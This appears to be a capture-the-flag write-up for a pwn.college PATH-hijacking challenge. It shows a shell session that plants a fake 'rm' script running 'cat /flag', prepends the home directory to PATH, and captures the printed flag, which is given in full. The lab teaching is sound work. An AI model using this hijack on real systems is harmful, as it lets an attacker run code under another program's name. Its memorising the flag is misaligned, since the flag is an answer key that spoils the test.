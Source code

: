 # Challenge Description
Armed with your knowledge, you can now carry out some shenanigans. This challenge is almost the same as the first challenge in this module. Again, this challenge will delete the flag using the rm command. But unlike before, it will not print anything out for you.

How can you solve this? You know that rm is searched for in the directories listed in the PATH variable. You have experience creating the win command when the previous challenge needed it. What else can you create?
# Thought Process & Solution

```bash
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ echo $PATH
/run/challenge/bin:/run/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~hijacking-commands:~$ PATH="/home/hacker:$PATH"
hacker@path~hijacking-commands:~$ echo $PATH
/home/hacker:/run/challenge/bin:/run/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{UXbI07XzhYam-6uhBPgJFsH9Wch.ddzNyUDL5EzN0czW}
hacker@path~hijacking-commands:~$ cat rm
cat /flag
```
**Flag:** `pwn.college{UXbI07XzhYam-6uhBPgJFsH9Wch.ddzNyUDL5EzN0czW}`
## New Learning
## Reference

